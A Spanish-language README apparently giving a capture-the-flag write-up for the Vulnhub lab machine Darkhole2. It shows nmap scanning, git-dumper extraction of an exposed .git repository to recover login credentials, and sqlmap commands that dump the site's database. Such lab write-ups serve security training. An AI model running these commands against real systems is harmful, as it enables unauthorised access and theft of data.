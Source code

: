 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox

![descripcion](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/descripcion.jpg)

## Escaneo de Red
En primer lugar, tenemos que obtener la dirección IP del objetivo

![uso del netdiscover](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/netdiscover.jpg)

~~~
netdiscover
~~~

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

~~~
nmap -A 192.168.40.133
~~~

![uso del nmap](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/nmap.jpg)

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22.
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git.

## Enumerar el servidor web
Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

![visualizacion de laweb](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/web.jpg)

Decidimos echar un vistazo a la página de inicio de sesión.

![vista login](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/login.jpg)

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.
![vista repositorio git](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git.jpg)

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

![vista gitclone](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitclone.jpg)
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~

Después de descargar la herramienta, intentamos ejecutarla con python .

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitdumpe%20python.jpg)
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup
~~~

Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para continuar.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git%20log.jpg)
~~~
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" --dbs –batch   //vemos las bases de datos

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" -D darkhole_2 --dump-all --batch
date: "14/07/2023"

